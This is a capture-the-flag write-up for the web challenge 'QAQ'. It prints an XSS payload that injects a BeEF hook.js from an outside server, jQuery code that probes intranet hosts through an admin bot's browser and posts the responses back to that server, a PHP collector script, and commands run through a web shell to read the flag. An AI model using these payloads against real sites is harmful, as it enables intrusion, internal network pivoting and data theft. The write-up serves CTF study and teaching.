

# Writeup for QAQ (WEB) (350)

> Solves: 16
> 
> web
> 
> http://104.199.132.251:80
> 
> hint1: What else can XSS do? Just steal cookies? Secret in intranet，hack harder guys!
> 
> hint2: CORS headers
  
We are given a following web interface:


After submitting form, we see a summary of submission, so we can test XSS prevention bypass. 
(Note, that this alert was not in XSS payload, it was just an element of response):



We crafted the following xss payload: 

```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```

It successfully appends the code to body tag:
```
<script type="text/javascript" src="http://1.2.3.4/js/hook.js"></script>
```
allowing us to execute any unrestricted javascript code, from our external server.
First we confirmed, that the file has been downloaded (read) by admin (probably BOT).

As the attached file has been BeEF (The Browser Exploitation Framework Project) [hook.js](hook.js), we spend some time playing with BeEF itself. It turned out, that the bot visits the site and is disconnected after a short time (probably 5 seconds).

Hint `Secret in intranet` prompted us to scan hosts in BeEF, so we got:

```
127.0.0.1       localhost       Linux
172.17.0.1                      Linux 
192.168.1.3                     Linux
```

After that, we checked IP nearest to found hosts:

(Note, that the comment payload was still the same, we modified only code in our server's hook.js)
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://192.168.1.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.1"} );
});
jQuery.get( "http://192.168.1.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.2"} );
});
jQuery.get( "http://192.168.1.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.3"} );
});
jQuery.get( "http://192.168.1.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.4"} );
});
jQuery.get( "http://192.168.1.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.5"} );
});
jQuery.get( "http://172.17.0.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.1"} );
});
jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.2"} );
});
jQuery.get( "http://172.17.0.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.3"} );
});
jQuery.get( "http://172.17.0.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.4"} );
});
jQuery.get( "http://172.17.0.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.5"} );
});
```

Source of server observer code (http://1.2.3.4/app_dev.php):
```
<?php

$file = fopen("file.txt", "a");
fwrite($file, "\n\n\n". $_POST['x']);
fclose($myfile);
```


We had response from `172.17.0.2` that looked promising. Next step was to check, what has been there.

Another version of hook.js:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: data} );
});
```

Gave us the response:

```
<html>
<body>
=.=
webdog
webshell
=.=
<!--
header("Access-Control-Allow-Origin: *");

$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();

or

$ztz = new ReflectionFunction("system");
echo $ztz->invokeArgs(array("$_GET[c]"));
-->
</body>
</html>
```

Yup- turned out, that we had php shell from `$_GET[c]`.

Yet another version of hook.js:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=ls", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: data} );
});
```

gave us response:
```
fl4g
index.php
index.php
```

And finally:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=cat fl4g", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: data} );
});
```


returned the flag.